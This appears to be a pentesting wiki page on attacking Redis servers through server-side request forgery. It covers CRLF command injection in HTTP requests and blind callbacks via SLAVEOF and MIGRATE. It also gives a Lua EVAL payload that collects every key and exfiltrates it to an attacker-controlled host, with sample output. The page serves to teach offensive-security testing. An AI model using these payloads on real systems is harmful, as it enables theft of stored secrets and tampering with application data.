 ```yaml
---
description: >-
  An in-memory data store often used to store small data like cache, sessions or
  queues
---
```


# Redis - TCP/6379

## Description

The Redis [Documentation](https://redis.io/docs/about/) is a great way to learn about its features. It is a TCP server commonly bound to port 6379, using an **ASCII protocol**, with no binary data (see [Protocol](https://redis.io/docs/reference/protocol-spec/)). By sending commands, you can _authenticate_, _write_, and _read_ data at specific _keys_.&#x20;

Many more advanced features exist, see [Commands](https://redis.io/commands/) for all of them. Most are for managing big clusters of servers and maintenance tasks, but some are useful for dealing with all the different [data types](https://redis.io/docs/data-types/). The following are a few examples where you could often see Redis:

* **Caching** content for URLs or identifiers temporarily to reduce the load on a server
* Storing **sessions** of logged-in users with their associated data
* Holding **queues** of processing requests that a server will take from

## SSRF

In a lucky scenario, you might have direct access to the Redis port and can interact with it. But often this application is only accessible locally (127.0.0.1), or on a different backend instance. In these cases you need to persuade a target that can reach it, to send requests on your behalf. With Server-Side Request Forgery vulnerabilities, you may be able to send arbitrary HTTP requests, or even raw TCP data to a location you control. A common technique is targetting this at a Redis server at port :6379 and seeing if you can exploit it in any way.&#x20;

To find a Redis server you can try to reach out to localhost (127.0.0.1 or [variations](https://highon.coffee/blog/ssrf-cheat-sheet/#basic-locahost-bypass-attempts)), as well as internal hosts like the docker (172.17.0.0/16, note that it may be changed), and hostnames like "redis". You can send some simple command to view if a clean response comes back (testing by connecting to your own system helps), but often you will be doing this blind. See [#detection-callbacks](redis-tcp-6379.md#detection-callbacks "mention") for ideas on detecting this remotely.

### HTTP

HTTP is a common target for SSRF vulnerabilities as servers often make such requests. Redis is a plaintext protocol meaning it _would_ be easy to write some POST data with command that it will execute. Therefore, the developers have thought about this. Sending any command starting with `POST` or `Host:` (case-insensitive) will **quit** the connection, possibly before you had your chance to write any commands. We need to be more creative.&#x20;

As every request should have a `Host:` header, we have 3 places where we could possibly inject commands before it terminates:

1. The **request method** itself, the first thing it sees. If we simply make this a GET request (a default redis command), it won't quit and by inserting `\r\n` newline characters we may even be able to insert more commands
2. The **location** (path) of the request, right after the method. If we are able to insert newline characters here you can write more commands. Note that this is impossible for POST requests as they quit early
3. **Extra headers** before the `Host:` header, which may have newline injection possibilities or, because the name is the start of a line, the name can be a command by itself

<pre class="language-http" data-title="Example"><code class="lang-http">Injection into the path with newlines:
<strong>/endpoint%0d%0aKEYS *%0d%0a
</strong>
<strong>GET /endpoint
</strong><strong>KEYS *
</strong><strong>HTTP/1.1
</strong>Host: ...
</code></pre>

### Detection: Callbacks

For **Blind SSRF** scenarios where you are unsure about the backend, and if it is vulnerable, you can try to generate a simple callback to yourself to confirm that you are executing Redis commands. These expect to interact with another Redis server that you can set up, but will also simply connect and send data to a simple `nc` listener that you make. Here are some ways:

```powershell
# Turn server into a "replica" of master (commands are equivalent)
SLAVEOF [HOST] [PORT]
REPLICAOF [HOST] [PORT]

# Set and exfiltrate a key
SET key1 "test"
MIGRATE [HOST] [PORT] key1 0 5000
```

### Exploitation

See [Enumeration](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#manual-enumeration) for examples where you directly receive a response, as well as some RCE techniques further down the page. With an active system the [`MONITOR`](https://redis.io/commands/monitor/) command can also give good information about incoming queries and writes.

**Without a response,** there are still some powerful things you can leak. Above we saw some ways of detecting a callback to your server, but the [`MIGRATE`](https://redis.io/commands/migrate/) command is very powerful for this. It sends the _value of a key_ to _your server_, which can be after you perform some complex commands and saving a result in such a key! This way we can exfiltrate data and responses as if we were interacting directly.&#x20;

For the cleanest output, simply set up a simple Redis server, for example with docker:

```bash
docker run -p 6379:6379 --name redis-listener -d redis
```

Then with `redis-cli` locally you can view all data, and using `MONITOR` even in real-time!

We will trigger some commands on the server that will try to send a key and value to our new server. Try it with the `key1` payload shown above, and the callback with content should appear:

<pre class="language-sh"><code class="lang-sh">> MONITOR
1694377609.839835 [0 127.0.0.1:60688] "SELECT" "0"
<strong>1694377609.839844 [0 127.0.0.1:60688] "RESTORE" "key1" "0" "\x00\x04test\x0b\x00\xe8O\x12\xd3\x91nY\xcc"
</strong>> GET key1
<strong>"test"
</strong></code></pre>

While it is a good confirmation of the vulnerability, we can try to exploit it to gain more impact. Instead of leaking our own key, we can leak some keys that it stores, but how do we find the names of the keys? This is where the powerful Lua scripting ([`EVAL`](https://redis.io/commands/eval/)) can come into play. We will list and write all the keys to a single value, which we can leak through the `MIGRATE` method:

{% code title="Lua" overflow="wrap" %}
```lua
local keys = redis.call('KEYS', '*') local keyList = table.concat(keys, ',') redis.call('SET', 'keys', keyList) return keyList
```
{% endcode %}

This will run the `KEYS *` command (or any command you like), and concat the results with a `,` comma, and finally save this list to a key named `keys` which we can leak:

{% code title="Redis: List and leak keys" %}
```powershell
EVAL "local keys = redis.call('KEYS', '*') local keyList = table.concat(keys, ',') redis.call('SET', 'keys', keyList) return keyList" 0
MIGRATE 10.10.10.10 6379 keys 0 5000
```
{% endcode %}

```sh
> monitor
1694378430.919743 [0 127.0.0.1:43416] "RESTORE" "keys" "0" "\x00\tsecret1,secret2\x0b\x00\xbd\xaeEG\x1b\xb8d\xd7"
> get keys
"secret1,secret2"
```

Remember that you can now always leak a key by name using this method, and find all the secrets even with random names. Also, remember that more commands can be executed like this to enumerate the instance as needed.&#x20;

Then when you finally understand _how_ the system is used, you can try to **exploit it** by (over)writing data in the store. This can cause all kinds of unexpected vulnerabilities as developers often trust data coming from their own Redis store, causing injection, deserialization, or other access vulnerabilities on the main application. This can simply be done with the `SET` commands blindly.
